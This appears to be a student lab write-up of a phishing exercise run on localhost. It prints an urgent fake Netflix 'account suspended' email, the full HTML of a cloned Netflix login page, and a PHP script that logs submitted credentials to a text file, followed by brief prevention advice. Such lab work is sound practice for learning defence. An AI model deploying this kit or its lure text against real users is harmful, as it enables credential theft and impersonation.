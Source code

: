#PHISHING CAMPAIGN PROJECT


##1. Project Overview

	The objective of this project was to create a phishing campaign that mimics the Netflix login page in order to capture user credentials (email and password). 


	The project involved:

	⁃	Building a fake login page using HTML.

	⁃	Processing the credentials with a PHP script.

	⁃	Logging the captured credentials in a text file.
	
	⁃	Hosting the local environment using MAMP PRO.

	
	At the end, I’ll also include methods to prevent such phishing attacks.



##2. Setting Up the Environment

	To host the phishing website, we needed to create a local environment using MAMP PRO. Here’s what was done:


	2.1. Installed MAMP PRO:

	⁃	This provided us with the Apache server and a local PHP environment.

	⁃	We configured MAMP PRO and set the Document Root to: /Users/mac/Sites/localhost, which is where all the files (HTML and PHP) were placed.

	
	2.2. Challenges Faced:

	⁃	Initially, we encountered an issue where MAMP wouldn’t start, showing an Apache error. This was fixed by adjusting the port settings and granting proper read/write permissions to the root folder.


	2.3. How It Was Overcome:

	⁃	The port settings were changed to ensure there were no conflicts, and file permissions for the root directory were set to allow both read and write access.



##3. Crafting the Fake Phishing Email 

	For the phishing campaign, a fake email was crafted to trick users into visiting the fake Netflix login page. The email was designed to look legitimate, using urgency and scare tactics to prompt users to click on the link.

	
	3.1. Fake Email Example:


		Subject: Urgent: Action Required to Confirm Your Netflix Account!

		Body:
			
			Dear [Victim's Name],

			We’ve noticed some unusual activity on your Netflix account, and for your security, we’ve temporarily disabled it. To avoid any disruptions in your service, we kindly ask you to confirm your account details immediately.

			Please confirm your account by clicking the link below:

			[Confirm Your Account Here](http://localhost:8888/fake_netflix_login.html)

			Failure to do so within the next 24 hours may result in a permanent suspension of your account.

			Thank you for your immediate attention to this matter.

			Best regards,  
			Netflix Security Team   
			support@netflix.com


	3.2. Details:

	⁃	The URL provided in the email (http://localhost:8888/fake_netflix_login.html) directs users to the fake login page, where credentials are captured.

	⁃	The email uses a sense of urgency (claiming account suspension) to compel users to act quickly.




##4. Building The Phishing Website (HTML & PHP)


	​4.1. HTML Script for the Fake Netflix Login Page:

	⁃	The fake login page was designed to look like the official Netflix login page. Here’s the HTML code used:


<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Netflix - Login</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            background-color: #f3f3f3;
            text-align: center;
            padding: 50px;
        }
        .login-box {
            background-color: white;
            padding: 20px;
            border-radius: 8px;
            width: 300px;
            margin: 0 auto;
            box-shadow: 0px 0px 10px rgba(0,0,0,0.1);
        }
        input[type="text"], input[type="password"] {
            width: 100%;
            padding: 10px;
            margin: 8px 0;
            border-radius: 4px;
            border: 1px solid #ccc;
        }
        button {
            padding: 10px 20px;
            background-color: #e50914;
            color: white;
            border: none;
            border-radius: 4px;
            cursor: pointer;
        }
    </style>
</head>
<body>
    <h2>Sign in to your Netflix account</h2>
    <div class="login-box">
        <form action="submit_phishing_form.php" method="post">
            <input type="text" name="username" placeholder="Email or phone number">
            <input type="password" name="password" placeholder="Password">
            <button type="submit">Sign In</button>
        </form>
    </div>
</body>
</html>



	4.2. PHP Script for Capturing Credentials:

	⁃	This PHP script handles the form submission and captures the username and password, saving them in a text file.

<?php
// Simulate capturing form data
$username = $_POST['username'];
$password = $_POST['password'];

// Log the captured credentials into a text file
$log = "Captured Username: $username | Captured Password: $password\n";
file_put_contents('phishing_log.txt', $log, FILE_APPEND | LOCK_EX);

echo "Credentials captured!";
?>

	⁃	Location: Both the HTML and PHP files were placed in the /Users/mac/Sites/localhost directory.

	⁃	Outcome: When the form is submitted, the credentials are saved in phishing_log.txt.



##5. Testing The Phishing Campaign

	After building the fake phishing website and PHP script, the next step was to test the campaign by simulating a user interaction.


	5.1. Process:

	⁃	Accessing the Fake Website: The website was hosted locally at the following URL:

			http://localhost:8888/fake_netflix_login.html

	⁃	When this URL was visited, the fake Netflix login page appeared, prompting the user to enter their credentials.


	5.2. Submitting Credentials:

	⁃	Test credentials were entered (e.g., Username: testuser@test.com, Password: testpassword).

	⁃	Upon clicking Sign In, the credentials were submitted to the submit_phishing_form.php script.
	

	5.3. Capturing the Credentials:

	⁃	The PHP script logged the credentials in a text file named phishing_log.txt, located in the directory:

			/Users/mac/Sites/localhost

	5.4. Verification:

	⁃	The phishing_log.txt file successfully captured and stored the credentials:
		
			Captured Username: testuser@test.com | Captured Password: testpassword



##6. Phishing Attack Prevention

	
	In addition to building and testing the phishing campaign, it’s important to understand how to prevent phishing attacks. 


	Below are some key techniques used by legitimate websites and organizations to protect users:


		1. Using HTTPS:

		⁃	What is it?: HTTPS (Hypertext Transfer Protocol Secure) encrypts data between the user’s browser and the server, ensuring that any information sent (like login credentials) is secure.

		⁃	Why it matters: Attackers often use fake websites that do not have HTTPS. Users should always check for the lock icon and https:// in the URL before entering sensitive information.


		2. Adding Two-Factor Authentication (2FA):

		⁃	What is it?: 2FA adds an additional security layer by requiring users to provide two pieces of evidence to log in (e.g., password + a one-time code sent to their phone).

		⁃	Why it matters: Even if attackers steal a user’s password, they cannot access the account without the second authentication factor.


		3. Educating Users to Verify URLs:

		⁃	What it means: Educating users to carefully check URLs before entering any personal information helps prevent phishing. Attackers often use fake URLs that look similar to legitimate ones but with slight differences.

		⁃	Why it matters: Users should be trained to look for inconsistencies in URLs, email senders, and other signs that a website or message may be fraudulent.



	Challenges Faced and Overcoming Them:


	Throughout the project, a few challenges were encountered:

	⁃	MAMP Not Starting: Fixed by adjusting the Apache port to 8888 and ensuring no other services were conflicting.

	⁃	Permissions Issues: Resolved by setting read and write permissions for the local directory, allowing the PHP script to log credentials successfully.

	⁃	Fake Email Crafting: The fake email was crafted to appear legitimate, using urgency and scare tactics. The link in the email was set to direct the user to the local phishing page.







##THE END.



